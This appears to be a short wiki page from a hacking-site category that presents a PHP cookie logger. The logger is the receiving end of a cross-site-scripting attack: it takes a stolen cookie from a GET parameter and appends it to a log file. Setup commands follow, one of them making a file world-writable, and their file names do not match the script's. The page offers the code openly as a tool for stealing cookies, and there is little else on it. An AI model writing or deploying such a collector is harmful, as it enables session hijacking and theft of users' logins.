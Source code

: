This is a cross-site-scripting, script that steals a cookie.

<pre>
<?php
$cookie = $HTTP_GET_VARS["cookie"];
$file = fopen('cookielog.txt', 'a');
fwrite($file, $cookie . "\n\n");
?>

touch cookielog.txt
chmod 777 cookielog.php
</pre>

[[Category:Hack This Site]][[Category:Security]]